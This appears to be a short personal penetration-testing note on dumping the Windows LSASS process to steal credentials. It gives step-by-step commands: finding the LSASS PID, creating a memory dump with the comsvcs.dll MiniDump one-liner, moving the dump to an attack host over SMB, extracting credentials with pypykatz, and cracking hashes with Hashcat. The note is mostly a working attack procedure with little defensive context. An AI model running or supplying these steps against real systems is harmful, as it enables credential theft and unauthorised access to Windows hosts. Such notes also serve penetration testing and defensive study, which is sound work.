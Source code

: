 critical service that plays a central role in credential management and the authentication processes in all Windows operating systems 

Create a dump file and then extract credentials on our hosts 

# Task Manager 
Right click on the Local Security Authority Process (LSAP) in Processes  -> Create dump file
dump file will be in 
```
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

# Command line method 
Find the PID
```
tasklist /svc
Get-Process lsass //powershell
```

```
rundll32 C:\windows\system32\comsvcs.dll, MiniDump pid-no C:\lsass.dmp full
```

Create an [[SMB Server]] on our attack host and transfer the dump file just like [[SAM]]

Extract credentials 
```
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```

Crack hashes with [[Hashcat]]
